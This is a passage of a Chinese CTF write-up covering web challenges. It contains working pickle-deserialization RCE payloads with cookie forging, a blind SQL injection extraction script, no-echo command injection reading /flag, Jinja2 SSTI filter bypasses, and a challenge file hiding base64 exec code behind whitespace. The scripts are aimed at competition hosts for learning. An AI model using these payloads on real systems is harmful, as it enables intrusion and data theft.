  (S'whoami'
  ```

  → 构造字符串参数

  - `(`：向栈中压入一个MARK标记
  - `S`：实例化一个字符串对象
  - `'whoami'`：要执行的命令

- tR→ 完成元组并执行函数调用

  - `t`：寻找栈中的上一个MARK，并组合之间的数据为元组

  - `R`：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数

  `.`:在opcode中，`.`是程序结束的标志。

本来是想试一下反弹shell的，但是一直没打出来，这里又没回显，就用重定向符打无回显RCE

```python
import pickle,base64, hmac, hashlib

#使用 secret 计算 HMAC
secret = b"Hell0_H@cker_Y0u_A3r_Sm@r7"  # 必须和服务器一致

digest = hashlib.sha256#将 SHA-256 哈希算法赋值给变量 digest，这将用于后续的 HMAC 计算。

 opcode= b'''cos
system
(S'ls > 1.txt'
tR.'''
#pickle反序列化RCE

opcode_base64 = base64.b64encode(opcode)

sign = hmac.new(secret, opcode_base64, digest).digest()
sig = base64.b64encode(sign)

# 生成最终 Cookie
evil_data = f"!{sig.decode()}?{msg_base64.decode()}"
print(evil_data)
```


加密脚本是ai给的，抓包改cookie然后发包


这里直接访问1.txt是不行的，需要在download路由用filename参数去访问


本地目录没有，在根目录(代码中也提示了，这里只是测试一下)

然后payload用cat去读取flag就可以了，因为flag后面有uuid，直接通配符`*`匹配就可以

这里直接放一个师傅的文章吧

[Pickle反序列化](https://goodapple.top/archives/1069)

根据里面的常用opcode然后一步步构造payload就可以了

赛后积累：

其实这里的话也是可以利用`__reduce__`方法去打无回显RCE的

```python
from bottle import cookie_encode
import os
import requests
secret = "Hell0_H@cker_Y0u_A3r_Sm@r7"

class Test:
    def __reduce__(self):
        return (eval, ("""__import__('os').system('cp /f* ./2.txt')""",))

exp = cookie_encode(
    ('session', {"name": [Test()]}),
    secret
)

requests.get('http://gz.imxbt.cn:20458/secret', cookies={'name': exp.decode()})


```

使用bottle的`cookie_encode`j生成payload，然后传进去就好了


## ezsql(手动滑稽)

### #布尔盲注+无回显RCE


在username加个单引号就出现报错了，password没有，那username就是注入点

先fuzz一下，发现空格，union，逗号，--+等被过滤了，并且这道题没什么回显，那就只能打盲注了

绕过空格的时候发现`/**/`被过滤了，用%09绕过，逗号过滤用from,for绕过

测试正确和错误回显

```
password=1&username=admin'%09or%09length(database())<0#
```

因为admin是字符串，在sql查询中会被当成false，所以只需要关注后面插入的语句正确与否就行，这里此时肯定是错的，页面回显


所以这个就是错误回显

```
password=1&username=admin'%09or%09length(database())>0#
```

此时肯定是正确的，页面回显


一开始以为是有限制后面测出来是正确回显

但是这里有个点就是他成功的回显是302跳转到相关页面，而失败的话还是在原页面，那我们拿失败的去做判断条件就行

```python
import requests

url = "http://gz.imxbt.cn:20429/"

flag = ""
for i in range(1,50):
    low = 32
    high = 128
    mid = (low + high) // 2  # 80
    while low < high:
        data = f"password=1&username=admin'%09or%09ord(substr(database()%09from%09{i}%09for%091))<{mid}#"
        headers = {
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        print(data)
        r = requests.post(url,data=data,headers=headers)
        if "帐号或密码错误" not in r.text:
            high = mid
        else:
            low = mid + 1
        mid = (low + high) // 2 
    if mid <= 32 or mid >= 127:
        break
    flag += chr(mid-1)
    print(flag)
print(flag)
```

因为这里用%09对空格进行绕过，在python中requests库在发送请求的时候会进行编码，导致%09被url编码，所以这里需要确保我们发送的是原始的%09，我们需要手动构造请求体，**当`data`参数传入字符串时：`requests`会直接发送原始字符串，当`data`参数传入字典时：`requests`会进行自动URL编码。**

爆出来的信息

```
数据库名:
testdb
表名:
double_check,user
doublr_check中字段名
secret
数据内容
dtfrtkcc0czkoua9S
```

也可以用二分法，这样更快

```python
import requests

url = "http://gz.imxbt.cn:20429/"

flag = ""
for i in range(1,50):
    low = 32
    high = 128
    mid = (low + high) // 2  # 80
    while low < high:
        data = f"password=1&username=admin'%09or%09ord(substr((select%09secret%09from%09testdb.double_check)%09from%09{i}%09for%091))<{mid}#"
        headers = {
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        print(data)
        r = requests.post(url,data=data,headers=headers)
        if "帐号或密码错误" not in r.text:
            high = mid
        else:
            low = mid + 1
        mid = (low + high) // 2
    if mid <= 32 or mid >= 127:
        break
    flag += chr(mid-1)
    print(flag)
print(flag)
```

根据double_check提示，估计还是得到二次验证那个页面，直接访问访问不了，得打正确的语句才会跳转，跳转后传入数据然后就跳转到index.php页面


一眼无回显RCE，提示的很明显了

抓包发包看到响应包有提示

```
<!-- /flag -->
```

flag在根目录

一开始想反弹shell的，nc的时候发现bash被过滤了，bash也就不行了

想到重定向符号>可以将**标准输出**重定向到文件，例如

```
ls > file.txt
```

ls命令执行的结果会保存在file文件中

这里其实是过滤了空格的，可以用`$IFS$1`去绕过，也可以不用空格

那直接打就行

```
ls>1.txt
```

没报错，直接访问1.txt


看根目录，用`$IFS$1`绕过空格


那直接读flag就行


## Now you see me 1

题目内容：

```

```


让我们访问这个路由


下载附件app.py

```python
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2024/12/27 18:27:15
@Author  :   LamentXU 

运行，然后你会发现启动了一个flask服务。这是怎么做到的呢？
注：本题为彻底的白盒题，服务端代码与附件中的代码一模一样。不用怀疑附件的真实性。
'''
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            ;exec(__import__("base64").b64decode('IyBZT1UgRk9VTkQgTUUgOykKIyAtKi0gZW5jb2Rpbmc6IHV0Zi04IC0qLQonJycKQEZpbGUgICAgOiAgIHNyYy5weQpAVGltZSAgICA6ICAgMjAyNS8wMy8yOSAwMToxMDozNwpAQXV0aG9yICA6ICAgTGFtZW50WFUgCicnJwppbXBvcnQgZmxhc2sKaW1wb3J0IHN5cwplbmFibGVfaG9vayA9ICBGYWxzZQpjb3VudGVyID0gMApkZWYgYXVkaXRfY2hlY2tlcihldmVudCxhcmdzKToKICAgIGdsb2JhbCBjb3VudGVyCiAgICBpZiBlbmFibGVfaG9vazoKICAgICAgICBpZiBldmVudCBpbiBbImV4ZWMiLCAiY29tcGlsZSJdOgogICAgICAgICAgICBjb3VudGVyICs9IDEKICAgICAgICAgICAgaWYgY291bnRlciA+IDQ6CiAgICAgICAgICAgICAgICByYWlzZSBSdW50aW1lRXJyb3IoZXZlbnQpCgpsb2NrX3dpdGhpbiA9IFsKICAgICJkZWJ1ZyIsICJmb3JtIiwgImFyZ3MiLCAidmFsdWVzIiwgCiAgICAiaGVhZGVycyIsICJqc29uIiwgInN0cmVhbSIsICJlbnZpcm9uIiwKICAgICJmaWxlcyIsICJtZXRob2QiLCAiY29va2llcyIsICJhcHBsaWNhdGlvbiIsIAogICAgJ2RhdGEnLCAndXJsJyAsJ1wnJywgJyInLCAKICAgICJnZXRhdHRyIiwgIl8iLCAie3siLCAifX0iLCAKICAgICJbIiwgIl0iLCAiXFwiLCAiLyIsInNlbGYiLCAKICAgICJsaXBzdW0iLCAiY3ljbGVyIiwgImpvaW5lciIsICJuYW1lc3BhY2UiLCAKICAgICJpbml0IiwgImRpciIsICJqb2luIiwgImRlY29kZSIsIAogICAgImJhdGNoIiwgImZpcnN0IiwgImxhc3QiICwgCiAgICAiICIsImRpY3QiLCJsaXN0IiwiZy4iLAogICAgIm9zIiwgInN1YnByb2Nlc3MiLAogICAgImd8YSIsICJHTE9CQUxTIiwgImxvd2VyIiwgInVwcGVyIiwKICAgICJCVUlMVElOUyIsICJzZWxlY3QiLCAiV0hPQU1JIiwgInBhdGgiLAogICAgIm9zIiwgInBvcGVuIiwgImNhdCIsICJubCIsICJhcHAiLCAic2V0YXR0ciIsICJ0cmFuc2xhdGUiLAogICAgInNvcnQiLCAiYmFzZTY0IiwgImVuY29kZSIsICJcXHUiLCAicG9wIiwgInJlZmVyZXIiLAogICAgIlRoZSBjbG9zZXIgeW91IHNlZSwgdGhlIGxlc3NlciB5b3UgZmluZC4iXSAKICAgICAgICAjIEkgaGF0ZSBhbGwgdGhlc2UuCmFwcCA9IGZsYXNrLkZsYXNrKF9fbmFtZV9fKQpAYXBwLnJvdXRlKCcvJykKZGVmIGluZGV4KCk6CiAgICByZXR1cm4gJ3RyeSAvSDNkZGVuX3JvdXRlJwpAYXBwLnJvdXRlKCcvSDNkZGVuX3JvdXRlJykKZGVmIHIzYWxfaW5zMWRlX3RoMHVnaHQoKToKICAgIGdsb2JhbCBlbmFibGVfaG9vaywgY291bnRlcgogICAgbmFtZSA9IGZsYXNrLnJlcXVlc3QuYXJncy5nZXQoJ015X2luczFkZV93MHIxZCcpCiAgICBpZiBuYW1lOgogICAgICAgIHRyeToKICAgICAgICAgICAgaWYgbmFtZS5zdGFydHN3aXRoKCJGb2xsb3cteW91ci1oZWFydC0iKToKICAgICAgICAgICAgICAgIGZvciBpIGluIGxvY2tfd2l0aGluOgogICAgICAgICAgICAgICAgICAgIGlmIGkgaW4gbmFtZToKICAgICAgICAgICAgICAgICAgICAgICAgcmV0dXJuICdOT1BFLicKICAgICAgICAgICAgICAgIGVuYWJsZV9ob29rID0gVHJ1ZQogICAgICAgICAgICAgICAgYSA9IGZsYXNrLnJlbmRlcl90ZW1wbGF0ZV9zdHJpbmcoJ3sjJytmJ3tuYW1lfScrJyN9JykKICAgICAgICAgICAgICAgIGVuYWJsZV9ob29rID0gRmFsc2UKICAgICAgICAgICAgICAgIGNvdW50ZXIgPSAwCiAgICAgICAgICAgICAgICByZXR1cm4gYQogICAgICAgICAgICBlbHNlOgogICAgICAgICAgICAgICAgcmV0dXJuICdNeSBpbnNpZGUgd29ybGQgaXMgYWx3YXlzIGhpZGRlbi4nCiAgICAgICAgZXhjZXB0IFJ1bnRpbWVFcnJvciBhcyBlOgogICAgICAgICAgICBjb3VudGVyID0gMAogICAgICAgICAgICByZXR1cm4gJ05PLicKICAgICAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgICAgIHJldHVybiAnRXJyb3InCiAgICBlbHNlOgogICAgICAgIHJldHVybiAnV2VsY29tZSB0byBIaWRkZW5fcm91dGUhJwoKaWYgX19uYW1lX18gPT0gJ19fbWFpbl9fJzoKICAgIGltcG9ydCBvcwogICAgdHJ5OgogICAgICAgIGltcG9ydCBfcG9zaXhzdWJwcm9jZXNzCiAgICAgICAgZGVsIF9wb3NpeHN1YnByb2Nlc3MuZm9ya19leGVjCiAgICBleGNlcHQ6CiAgICAgICAgcGFzcwogICAgaW1wb3J0IHN1YnByb2Nlc3MKICAgIGRlbCBvcy5wb3BlbgogICAgZGVsIG9zLnN5c3RlbQogICAgZGVsIHN1YnByb2Nlc3MuUG9wZW4KICAgIGRlbCBzdWJwcm9jZXNzLmNhbGwKICAgIGRlbCBzdWJwcm9jZXNzLnJ1bgogICAgZGVsIHN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0CiAgICBkZWwgc3VicHJvY2Vzcy5nZXRvdXRwdXQKICAgIGRlbCBzdWJwcm9jZXNzLmNoZWNrX2NhbGwKICAgIGRlbCBzdWJwcm9jZXNzLmdldHN0YXR1c291dHB1dAogICAgZGVsIHN1YnByb2Nlc3MuUElQRQogICAgZGVsIHN1YnByb2Nlc3MuU1RET1VUCiAgICBkZWwgc3VicHJvY2Vzcy5DYWxsZWRQcm9jZXNzRXJyb3IKICAgIGRlbCBzdWJwcm9jZXNzLlRpbWVvdXRFeHBpcmVkCiAgICBkZWwgc3VicHJvY2Vzcy5TdWJwcm9jZXNzRXJyb3IKICAgIHN5cy5hZGRhdWRpdGhvb2soYXVkaXRfY2hlY2tlcikKICAgIGFwcC5ydW4oZGVidWc9RmFsc2UsIGhvc3Q9JzAuMC4wLjAnLCBwb3J0PTUwMDApCg=='))                                                                 
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")                                                                 
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
```

然后终端运行了一下


该说不说，挺神奇的

哎？突然发现上面复制过来的跟在pycharm中看到的不一样，有一堆base64编码的代码

```python
# YOU FOUND ME ;)
# -*- encoding: utf-8 -*-
'''
@File    :   src.py
@Time    :   2025/03/29 01:10:37
@Author  :   LamentXU 
'''
import flask
import sys
enable_hook =  False
counter = 0
def audit_checker(event,args):
    global counter
    if enable_hook:
        if event in ["exec", "compile"]:
            counter += 1
            if counter > 4:
                raise RuntimeError(event)

lock_within = [
    "debug", "form", "args", "values", 
    "headers", "json", "stream", "environ",
    "files", "method", "cookies", "application", 
    'data', 'url' ,'\'', '"', 
    "getattr", "_", "{{", "}}", 
    "[", "]", "\\", "/","self", 
    "lipsum", "cycler", "joiner", "namespace", 
    "init", "dir", "join", "decode", 
    "batch", "first", "last" , 
    " ","dict","list","g.",
    "os", "subprocess",
    "g|a", "GLOBALS", "lower", "upper",
    "BUILTINS", "select", "WHOAMI", "path",
    "os", "popen", "cat", "nl", "app", "setattr", "translate",
    "sort", "base64", "encode", "\\u", "pop", "referer",
    "The closer you see, the lesser you find."] 
        # I hate all these.
app = flask.Flask(__name__)
@app.route('/')
def index():
    return 'try /H3dden_route'
@app.route('/H3dden_route')
def r3al_ins1de_th0ught():
    global enable_hook, counter
    name = flask.request.args.get('My_ins1de_w0r1d')
    if name:
        try:
            if name.startswith("Follow-your-heart-"):
                for i in lock_within:
                    if i in name:
                        return 'NOPE.'
                enable_hook = True
                a = flask.render_template_string('{#'+f'{name}'+'#}')
                enable_hook = False
                counter = 0
                return a
            else:
                return 'My inside world is always hidden.'
        except RuntimeError as e:
            counter = 0
            return 'NO.'
        except Exception as e:
            return 'Error'
    else:
        return 'Welcome to Hidden_route!'

if __name__ == '__main__':
    import os
    try:
        import _posixsubprocess
        del _posixsubprocess.fork_exec
    except:
        pass
    import subprocess
    del os.popen
    del os.system
    del subprocess.Popen
    del subprocess.call
    del subprocess.run
    del subprocess.check_output
    del subprocess.getoutput
    del subprocess.check_call
    del subprocess.getstatusoutput
    del subprocess.PIPE
    del subprocess.STDOUT
    del subprocess.CalledProcessError
    del subprocess.TimeoutExpired
    del subprocess.SubprocessError
    sys.addaudithook(audit_checker)
    app.run(debug=False, host='0.0.0.0', port=5000)

```

My_ins1de_w0r1d就是我们的注入点，因为这里My_ins1de_w0r1d的值是直接插入的，所以我们直接测试一下

虽然我们的输入被包裹在注释中，但 Jinja2 注释有个特性：注释内的模板语法还是会被解析，只是不输出结果。

My_ins1de_w0r1d的值需要以Follow-your-heart-开头，因为`{{}}`被过滤了，用``

```
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}//Follow-your-heart-49
```

成功触发ssti，我们试一下

```
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}{%if%09not%09a%}yes//Follow-your-heart-yes
```

如果没有定义a变量,直接result,那么a会被当作false,result不会被执行,那么相反的,使用result,则result可以执行

这里也测出来可以用%09去绕过空格

我测了一晚上没测出来，然后想着还是构造字符吧

```
{%set%09a=({}|int)**({}|int)%}//1
```

构造成功那就先把数字构造出来

```python
{%set%09a=(1|int)%}
{%set%09b=(2|int)%}
{%set%09c=(3|int)%}
{%set%09d=(4|int)%}
{%set%09e=(5|int)%}
{%set%09f=(6|int)%}
{%set%09g=(7|int)%}
{%set%09h=(8|int)%}
{%set%09i=(9|int)%}
{%set%09j=(0|int)%}

//Follow-your-heart-(1, 2, 3, 4, 5, 6, 7, 8, 9, 0)
```

如果构造字符型数字的话也是可以的

```
{%set%09k=(1|string)%}//'1'
```

然后到这就寄了。。。

赛后学习：

### request对象的另一种用法

看的出题师傅的文章：https://www.cnblogs.com/LAMENTXU/articles/18730353

本来是想复现的，但是发现好像复现平台这道题没回显了，只能先看看文章

这题用的是一种比较罕见的技术来打。

我们看看黑名单

```python
lock_within = [
    "debug", "form", "args", "values", 
    "headers", "json", "stream", "environ",
    "files", "method", "cookies", "application", 
    'data', 'url' ,'\'', '"', 
    "getattr", "_", "{{", "}}", 
    "[", "]", "\\", "/","self", 
    "lipsum", "cycler", "joiner", "namespace", 
    "init", "dir", "join", "decode", 
    "batch", "first", "last" , 
    " ","dict","list","g.",
    "os", "subprocess",
    "g|a", "GLOBALS", "lower", "upper",
    "BUILTINS", "select", "WHOAMI", "path",
    "os", "popen", "cat", "nl", "app", "setattr", "translate",
    "sort", "base64", "encode", "\\u", "pop", "referer",
    "The closer you see, the lesser you find."] 
        # I hate all these.
```

由于缺少`_`，只能去尝试构造字符`_`，但是由于限制了单双引号和一些重要字符，无法获取到`_`。传统继承链也打不了。

注意到没有过滤request对象（除了request其他的入口类全给你ban了）。然后，可以发现request的常用逃逸参数（args，values这种）全被禁止。同时限死了单双引号，无法拼接，无法进行编码转换。只能去看开发手册找找request还有什么能用的。


英文看不懂，去简单翻译和咨询一下ai


可以使用`request.endpoint`获取到当前路由的函数名，我们本地测试一下


从中，我们能获取字符'd', 'a', 't'

注意到可以拼接出data。进而获取`request.data`，再在请求体中传入任意字符进行绕过。至此，我们可以获得任意字符。

### importlib.reload

在黑名单中去掉了很多可以RCE的函数和方法，python2中可以使用reload函数对类进行重载，在python3中，这个函数搬到了importlib类里。可以以此重载到被删除的方法。

### flask模板注释语句绕过

说实话，我比赛的时候并没有绕过这个，但是页面还是正常回显执行结果了，但在flask里`{#`和`#}`意味着注释语句。即，在这里面的内容不会被渲染，也不会被执行。（不过之前查到是可以执行只是不会输出结果emmm）

所以我们的思路就是：

1.`#}`闭合注释语句
2.request.endpoint找request.data
3.request.data从请求体中获取任意字符
4.通过拼接字符打继承链找到importlib的reload。分别reload`os.popen`和`subprocess.Popen`
5.通过request打继承链找os打RCE

这道题的质量还是蛮高的，毕竟学到了不少东西，为出题人扛大旗


## 出题人已疯

附件

```py
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2025/03/29 15:52:17
@Author  :   LamentXU 
'''
import bottle
'''
flag in /flag
'''
@bottle.route('/')
def index():
    return 'Hello, World!'
@bottle.route('/attack')
def attack():
    payload = bottle.request.query.get('payload')
    if payload and len(payload) < 25 and 'open' not in payload and '\\' not in payload:
        return bottle.template('hello '+payload)
    else:
        bottle.abort(400, 'Invalid payload')
if __name__ == '__main__':
    bottle.run(host='0.0.0.0', port=5000)
```

一眼ssti


但是这里限制了几个条件

- payload长度要小于25
- open字符串不能在payload中
- 斜杠不能在payload中

这里其实限制长度就很难受，最多只能查到当前类就已经打不下去了，看看怎么绕过长度限制吧


## ez_puzzle

### #前端js

infernity师傅出的一个拼图游戏


分析一下源代码

```js
<script>
            window.addEventListener("contextmenu", function (ev) { 
                ev.preventDefault();
                alert("你想干嘛？");
                return false; 
            }); 
            document.addEventListener("keydown", function (ev) {
                ev.preventDefault();
		alert("你想干嘛？");
                return false;
            });
</script>
```

这里的话是对键盘的输入和鼠标右键的操作进行了拦截，逐步解释一下代码吧

1. `window.addEventListener("contextmenu", function (ev) {`
   - 为全局 window 对象添加一个 "contextmenu" 事件监听器（即右键菜单事件）
   - 当用户右键点击时，会触发后面的回调函数
2. `ev.preventDefault();`
   - 阻止右键菜单的默认行为（原本会弹出浏览器默认的右键菜单）
3. `alert("你想干嘛？");`
   - 弹出一个警告框，显示"你想干嘛？"
4. `return false;`
   - 进一步阻止事件冒泡和默认行为
5. `document.addEventListener("keydown", function (ev) {`
   - 为 document 对象添加一个 "keydown" 事件监听器（即按键按下事件）
6. `ev.preventDefault();`
   - 阻止按键的默认行为（比如按空格会向下滚动页面）

然后里面有个js代码，在里面发现了有endTime和startTime两个变量，猜测是会记录开始和结束的时间然后做差算时间，并和2000(毫秒)作比较，这里的endTime是我们不能确定的，但是startTime我们是可以改的，只要最后做差的结果小于2000就行

控制台传入js代码对开始时间进行修改，在控制台传入payload

```
startTime = Date.now() - 1900
```

解释一下payload

1. **`Date.now()`**：
   - `Date.now()` 是一个 JavaScript 方法，它返回自 Unix 纪元（1970 年 1 月 1 日 00:00:00 UTC）以来的毫秒数。这是一个非常常用的方法，用于获取当前的时间戳。
2. **`- 1900`**：
   - 在这个上下文中，`- 1900` 是一个算术操作，它从 `Date.now()` 返回的时间戳中减去 1900 毫秒（即 1.9 秒）。这意味着 `startTime` 的值将代表当前时间减去 1.9 秒的时间戳。

因为这里源码中对键盘和鼠标右键的操作做了禁止并弹窗

所以我们可以双键f12强行打开开发者工具


此时是停止了的，然后我们在控制台传入


然后退出开发者工具，把图拼好就可以拿到flag了


- Infernity师傅的payload

```
startTime=100000000
//把这个变量设置的很大，只要最后相减的结果是小于2000就行
```
